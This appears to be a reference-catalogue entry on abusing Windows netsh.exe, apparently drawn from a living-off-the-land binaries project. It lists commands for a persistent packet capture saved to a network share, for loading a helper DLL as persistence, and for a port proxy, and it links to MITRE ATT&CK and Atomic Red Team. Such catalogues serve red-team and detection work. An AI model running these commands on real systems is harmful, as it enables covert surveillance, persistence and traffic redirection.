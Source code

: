 ## Netsh.exe

* Functions: Execute, Surveillance

```
netsh trace start capture=yes filemode=append persistent=yes tracefile=\\server\share\file.etl    
netsh trace show status    
    
netsh.exe add helper C:\Path\file.dll	
     
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1
```

Acknowledgements:
* 

Code sample:
* 

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Persistence/Netsh_Helper_DLL.md
* https://attack.mitre.org/wiki/Technique/T1128
* https://twitter.com/teemuluotio/status/990532938952527873

Full path:
```
c:\windows\system32\netsh.exe
c:\windows\sysWOW64\netsh.exe
```

Notes:



Detection:


 
